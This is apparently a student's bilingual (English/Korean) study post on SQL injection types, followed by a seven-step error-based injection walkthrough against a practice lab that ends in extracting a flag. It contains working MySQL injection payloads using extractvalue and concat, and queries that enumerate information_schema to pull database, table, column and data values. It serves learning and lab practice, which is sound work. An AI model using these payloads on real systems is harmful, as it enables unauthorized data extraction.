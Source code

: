 ```yaml
---
title: "Week 7 - Error-based / Blind SQL Injection"
date: 2025-06-03
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


## 1. Types of SQL Injection (Union-based, Error-based, Blind)

SQL Injection techniques can generally be categorized into the following three types:

**Union-based SQL Injection**

**Error-based SQL Injection**

**Blind SQL Injection**

### (1) Union-based SQL Injection
Condition: The result of the SQL query is directly displayed on the page.
purpose: Use **UNION SELECT** to append custom queries and extract data by injecting into the output.

``` 
UNION SELECT 1,2,3,4 #
```

→ it is important to match the number of columns 
→ You can insert values into visible columns to leak data

### (2) Error-based SQL Injection

Condition: The server displays detailed SQL error messages.
Goal: Trigger an error that includes the result of a **SELECT** query within the error message itself.

Syntax errors are usually not helpful
Logic errors are more effective for exposing data in the error

Recommended function: __extractvalue()__

``` 
extractvalue('1', concat(0x3a, (select 'normaltic')))
``` 
Attack Format:

``` 
' AND extractvalue('1', concat(0x3a, (SQL))) AND '1'='1
``` 
Typical Steps:

Get the database name
→ SELECT database()

Get table names
→ SELECT table_name FROM information_schema.tables WHERE table_schema='segfault_sql' LIMIT 0,1

Get column names
→ SELECT column_name FROM information_schema.columns WHERE table_name='game' LIMIT 0,1

### (3) Blind SQL Injection

Condition: No data is printed, and no error messages are shown (the response differs only by true/false conditions).

Goal: Extract data by asking true/false questions and observing changes in the server's response.

Basic Format:

``` 
' AND (condition) AND '1'='1
```

Example:

``` 
' AND substr((select 'test'), 1,1) = 't' AND '1'='1
```

Useful Functions:
- substr(string, position, length) → Extract part of a string
- ascii(char) → Get ASCII code of a character
- SELECT database() → Get current database name

## 2. Error Based Injection 
To use error-based SQL injection, we first need to trigger a logical error in the backend.

Before that, let’s understand the difference between syntax errors and logical errors.

- Syntax Error
: Occurs when a query violates SQL grammar rules.
For example: **select * from games where name = '$over**
This query is missing a closing quote ('), which makes it invalid SQL and prevents execution.
![image](https://github.com/user-attachments/assets/f9baa0b9-ed34-4a93-9807-da3a30000905)

- Logical Error
: Occurs when the query is syntactically valid, but the logic or intended behavior is broken.
For example: **SELECT * FROM users WHERE username = '$user' OR 1=1;**
The query is technically correct, but OR 1=1 always returns true, causing the database to return all users, which defeats the intended purpose.


Just like UNION-based injection, error-based injection can also be broken down into a 7-step process to extract data.

![image](https://github.com/user-attachments/assets/de405a18-815a-4e39-9cbd-e5a321a39509)

### Step 1. Find the Injection Point
You can identify whether your input is injected into the SQL query by trying a single quote **'** and observing how the server reacts.
 
### Step 2. Choose a Function that Outputs an Error
In this case, we’ll use the extractvalue(xml, xpath_expr) function.
extractvalue() function:
- First argument: XML string
- Second argument: XPath expression (used to extract a value from the XML)
Example XML:
``` 
<user>
  <name>Jimin</name>
</user>
```
Query:
```
extractvalue(xml_string, '/user/name')
-- Returns: Jimin
```

However, instead of using it correctly, we’ll use it **incorrectly** on purpose to force an error message. If the website is configured to show SQL error messages, we can inject our desired value into the error message itself..

How to Trigger the Error?
We intentionally pass a malformed XPath expression as the second argument:

``` 
extractvalue('1', ':abc')
```

Since **:abc** is not valid XPath, this triggers -> **XPATH syntax error: ':abc'** 
Now, we can replace abc with any value we want to extract — and it will be revealed inside the error message.

### Step 3. Create the Injection Format
Initially, you might think the following works: normaltic' AND extractvalue('1', (SELECT '____')) AND '1'='1
But this doesn't actually cause an error — XPath must be malformed.

You might then try: normaltic' AND extractvalue('1', :(SELECT 'value')) AND '1'='1

But this results in SQL syntax error due to the : operator, which is invalid in MySQL.

✅ Correct approach is to use concat() to merge values and trigger a parsing error inside XPath:



"abc"자리에 우리가 원하는 값을 가져오기 위해서는 select문을 넣어줘야할것이다 select문을 넣으면 공격문은 
normaltic' and extractvalue('1', (SELECT '여기에 데이터 뽑기 쿼리 넣기'))) AND '1'='1
이렇게 생각할 수 있다. 하지만 저렇게 select문을 집어넣으면 xpath에 오류가 발생하지않는다 위처럼 ':을 삽입시켜 xpath에 오류를 발생시켜야한다
normaltic' and extractvalue('1', :(SELECT '여기에 데이터 뽑기 쿼리 넣기'))) AND '1'='1
하지만 위처럼 단순히 : 를 삽입하는것은 sql 문법 자체가 잘못된것이기떄문에 쿼리 자체가 실행이 되지 않는다. 즉 에러 메세지에 아무것도 뜨지 않게 된다.
때문에 **concat()**을 이용해 문자열 결합 후 XPath로 넘긴다면 파싱 에러를 발생시킬 수 있다.

참고로 끝에 [AND '1'='1] 이 추가되는 이유는 마지막에 붙는 싱글쿼터가 오류를 발생시키지 않도록 즉 문법 에러를 막기위해 항등식을 이용하는것이다. 
``` 
최종 공격 구문:
normaltic' and extractvalue('1', concat(0x3a, (select 'test'))) and '1'='1
normaltic' and extractvalue('1', concat(0x3a, (select '_______'))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/25b10693-e16c-4f79-b697-8ac89e013d5f)

step 4. DB이름 탈취
공격 구문이 완성되었으니 우리가 원하는 데이터를 뽑아오는것이 가능하다.
``` 
normaltic' and extractvalue('1', concat(0x3a, (select database()))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/18c23230-20ed-42bf-a699-6736a8c75a03)

step 5. 테이블 이름 탈취
union injection과 동일하게 information_schema.tables에서 뽑아올 수 있다.
``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli'))) and '1'='1
```
![image](https://github.com/user-attachments/assets/a702e4ec-23fd-4876-ad94-fbee5656a26e)
	서브쿼리에서 여러 행이 반환되어 오류가 발생했다. limit를 사용해 한번에 하나의 row만 반환할 수 있도록 만들자

``` 
normaltic' and extractvalue(1, concat(0x3a, (select table_name from information_schema.tables where table_schema='errSqli' limit 0,1))) and '1'='1
```
![image](https://github.com/user-attachments/assets/077d5b9c-3713-4d6d-b4ce-587946b52473)

step 6. 컬럼 이름 탈취
information_schema.columns를 이용한다 방식은 동일하다

``` 
normaltic' and extractvalue(1, concat(0x3a, ( select column_name from information_schema.columns where table_name='flagTable'limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f54dedaa-f141-4f6b-8a30-cccb7e6ac021)
![image](https://github.com/user-attachments/assets/d48916ca-a473-4eb8-8991-9fbb77e5cdac)

step 7. 데이터를 추출
flag컬럼에 있는 데이터를 추출해보자
```
normaltic' and extractvalue(1, concat(0x3a, (select flag from flagTable limit 0,1))) and '1'='1
``` 
![image](https://github.com/user-attachments/assets/f2df5eb6-8462-423d-b599-3c404674abc4)

flag를 발견했다.






